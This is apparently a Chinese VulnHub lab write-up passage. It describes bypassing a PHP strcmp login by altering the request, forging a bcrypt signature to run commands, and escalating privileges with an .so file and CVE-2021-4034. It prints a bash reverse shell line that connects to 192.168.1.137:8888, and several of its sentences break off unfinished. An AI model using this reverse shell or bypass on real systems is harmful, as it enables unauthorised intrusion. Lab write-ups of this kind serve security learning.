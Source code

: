 ```
int strcmp(string $str1, string $str2)
```

参数 str1第一个字符串。str2第二个字符串。如果 str1 小于 str2 返回 < 0；如果 str1 大于 str2 返回 > 0；

当这个函数接受到了不符合的类型，这个函数将发生错误，但是在5.3之前的php中，显示了报错的警告信息后，将

只要我们\$_POST[‘password’]是一个

通过拦截修改数据包就可以登录后台：

![](/vulnhub_img/WEBRESOURCEd3f23e9ecd2b0b3fb0455edc7571813d截图.png)

就可以看到如下：

![](/vulnhub_img/WEBRESOURCE273d1293b5dedf0d364b0c85c04c86b0截图.png)

然后这里有个输入框：可以执行命令：

但是只能执行whoami，执行其他的就会提示签名错误：

![](/vulnhub_img/WEBRESOURCEf0cd0356fc8973869b4d63f3f2da7715截图.png)

![](/vulnhub_img/WEBRESOURCE584fe93e66e8821e136838991acd19d8截图.png)

那么现在就是破解这个签名，看看这个签名写的啥，加密方式为

![](/vulnhub_img/WEBRESOURCEb8f92125755cfe938fb8beadba5bbbcf截图.png)

bcrypt的加密网站

[https://www.browserling.com/tools/bcrypt](https://www.browserling.com/tools/bcrypt)

反弹shell语句：

bash -c 'bash -i >& /dev/tcp/192.168.1.137/8888 0>&1'

加密后：

$2a$10$6Epzbo7O.fFihwK9JQ4o.Oa7DhFShfLZJCvQHvh4g7MJcm1LX5l4.

然后直接右键审查元素，然后run即可获得shell:

![](/vulnhub_img/WEBRESOURCEd47f748e258d45388c9e0c180e239ad9截图.png)

# 提权

so文件可以提权到delx

![](/vulnhub_img/WEBRESOURCE2b2998fd8b73f4000a6c8637c48d1edb截图.png)

然后接着看了一下，2021-4034提权成功

![](/vulnhub_img/WEBRESOURCEc323be07bf1b39cfe0bb240a9a9e859a截图.png)

回头再去看作者给的那条路吧：
